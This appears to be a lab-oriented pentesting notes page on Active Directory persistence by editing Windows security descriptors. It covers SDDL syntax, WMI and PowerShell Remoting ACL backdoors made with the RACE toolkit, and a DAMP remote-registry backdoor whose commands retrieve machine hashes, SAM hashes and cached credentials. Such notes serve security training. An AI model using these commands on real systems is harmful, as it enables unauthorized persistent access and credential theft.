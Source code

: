 # Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.&#x20;

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>



### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose



```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

